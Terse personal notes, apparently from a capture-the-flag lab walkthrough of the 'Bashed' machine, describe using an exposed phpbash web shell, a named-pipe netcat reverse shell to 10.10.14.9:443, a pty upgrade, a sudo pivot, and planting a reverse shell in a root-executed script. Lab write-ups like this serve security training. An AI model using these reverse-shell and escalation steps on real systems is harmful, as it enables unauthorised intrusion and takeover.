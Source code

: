 ## bashed

10.10.10.68

Apache/2.4.18 Ubuntu
4.4.0-62-generic

https://github.com/cfreal/exploits/tree/master/CVE-2019-0211-apache

http://10.10.10.68/dev/phpbash.php

since no -e option for netcat

find world writeable folders (`/tmp/`)

do 

`victim$ mknod /tmp/backpipe p`

`victim$ /bin/sh 0</tmp/backpipe | nc 10.10.14.9 443 1>/tmp/backpipe `



python -c 'import pty; pty.spawn("/bin/sh")'
sudo -u scriptmanager -i

scriptmanager can access /scripts/test.py which contains a root owned file output so root must be executing the script.py

put reverse shell in the script for execution.